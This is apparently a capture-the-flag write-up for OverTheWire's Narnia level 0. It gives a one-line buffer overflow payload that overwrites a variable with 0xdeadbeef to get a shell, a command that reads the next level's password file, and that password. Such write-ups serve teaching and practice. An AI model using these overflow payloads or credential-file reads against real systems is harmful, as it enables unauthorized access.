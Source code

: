 ### Narnia Level 0

[narnia0](http://overthewire.org/wargames/narnia/narnia0.html)

**Username**: *narnia0*

**Password**: *narnia0*

### Solution
```bash
(python -c'print "A"*20 + "\xef\xbe\xad\xde"';cat) | ./narnia0
cat /etc/narnia_pass/narnia1
```

#### Credentials for Level 1

**Username**: *narnia1*

**Password**: *efeidiedae*
